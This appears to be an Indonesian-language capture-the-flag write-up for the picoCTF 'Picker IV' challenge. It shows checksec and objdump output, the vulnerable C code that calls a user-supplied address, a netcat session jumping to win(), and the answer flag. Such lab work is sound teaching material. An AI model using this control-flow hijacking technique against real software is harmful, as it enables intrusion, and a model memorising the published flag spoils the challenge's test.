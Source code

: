 <h1>Picker IV</h1>
<h3>Description</h3>
<pre>
Can you figure out how this program works to get the flag?
Connect to the program with netcat:
$ nc saturn.picoctf.net 63234
The program's source code can be downloaded <a href='https://artifacts.picoctf.net/c/528/picker-IV.c'>here</a>. The binary can be downloaded <a href='https://artifacts.picoctf.net/c/528/picker-IV'>here</a>.
</pre>
<h3>Solution</h3>
<p>Lakukan checksec pada program</p>

```console
┌──(root㉿Kali)-[/home/venom/Downloads]
└─# checksec --file=picker-IV
[*] '/home/venom/Downloads/picker-IV'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
<p>Didapatkan beberapa Warning salah satunya No PIE dan beberapanya</p>

```c
int main() {
  signal(SIGSEGV, print_segf_message);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  unsigned int val;
  printf("Enter the address in hex to jump to, excluding '0x': ");
  scanf("%x", &val);
  printf("You input 0x%x\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```
<p>pada fungsi main ada warning <strong>void (*foo)(void) = (void (*)())val</strong>, yang dapat mengeksekusi fungsi dengan memanggil address dari fungsi lain</p>

```console
┌──(root㉿Kali)-[/home/venom/Downloads]
└─# objdump -d picker-IV| awk '/<win>:/,/^$/' 
000000000040129e <win>:
  40129e:	f3 0f 1e fa          	endbr64
  4012a2:	55                   	push   %rbp
  4012a3:	48 89 e5             	mov    %rsp,%rbp
  4012a6:	48 83 ec 10          	sub    $0x10,%rsp
  4012aa:	48 8d 3d 74 0d 00 00 	lea    0xd74(%rip),%rdi        # 402025 <_IO_stdin_used+0x25>
  4012b1:	e8 3a fe ff ff       	call   4010f0 <puts@plt>
  4012b6:	48 8d 35 71 0d 00 00 	lea    0xd71(%rip),%rsi        # 40202e <_IO_stdin_used+0x2e>
  4012bd:	48 8d 3d 6c 0d 00 00 	lea    0xd6c(%rip),%rdi        # 402030 <_IO_stdin_used+0x30>
  4012c4:	e8 87 fe ff ff       	call   401150 <fopen@plt>
  4012c9:	48 89 45 f0          	mov    %rax,-0x10(%rbp)
  4012cd:	48 83 7d f0 00       	cmpq   $0x0,-0x10(%rbp)
  4012d2:	75 16                	jne    4012ea <win+0x4c>
  4012d4:	48 8d 3d 5e 0d 00 00 	lea    0xd5e(%rip),%rdi        # 402039 <_IO_stdin_used+0x39>
  4012db:	e8 10 fe ff ff       	call   4010f0 <puts@plt>
  ....................................................................
```
<p>Ambil address win() dan eksekusi pada server nc</p>

```console
┌──(root㉿Kali)-[/home/venom/Downloads]
└─# nc saturn.picoctf.net 63234
Enter the address in hex to jump to, excluding '0x': 40129e
You input 0x40129e
You won!
picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_14bc5444}
```
<p>Input address dari fungsi win() dan eksekusi</p>
<h3>Flag</h3>
<pre>
picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_14bc5444}
</pre>
